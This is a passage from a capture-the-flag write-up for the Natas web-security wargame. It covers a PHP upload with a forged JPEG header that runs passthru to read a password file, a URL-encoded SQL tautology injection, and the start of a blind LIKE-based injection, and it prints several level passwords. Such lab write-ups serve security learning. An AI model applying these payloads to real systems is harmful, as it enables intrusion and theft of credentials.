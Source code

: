 ```python
with open("script.php", "w") as f:
    f.write('\xFF\xD8\xFF\xE0')
    f.write("""<?php
passthru('cat /etc/natas_webpass/natas14');
""")
```

Uploading this file and changing the `filename` input extension to `.php` as
before prints out the password.

> Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## 15

Level 15 features a SQL injection attack. The following query is executed
against a MySQL database:

```php
<?php
$query = "SELECT * from users where username=\""
    .$_REQUEST["username"]
    ."\" and password=\""
    .$_REQUEST["password"]."\"";
```

We can see that the `username` and `password` sections of the query string
aren't sanitised. If a request is made that returns > 0 rows, the password
is printed. Supplying the `debug` keyword in the query string prints out the
query which is to be executed, making it easier to debug.

Looking at the query, need to construct a statement which reutrns a row.

The statement:

```sql
SELECT * from users where username="" or "1"="1" and password="" or "1"="1"
```

Makes use of SQL tautologies to return rows.

We can run this command by calling the URL with the following query string:

```
?username=%22%20or%20%221%22=%221&password=%22%20or%20%221%22=%221&debug
```
Running this prints out the password.

`AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

## 16

Level 16 also features a SQL injection attack. This time, we are presented with
a simple web app which tells the user whether a sumbitted username exists in
a database. From the source, we see that the database also contains the
user's password.

We can construct a SQL query which leaks information about the user's password.
The following query makes use of the MySQL `LIKE` function, which pattern
matches a field.


[^1]: Hacking into systems without explicit permission is illegal.
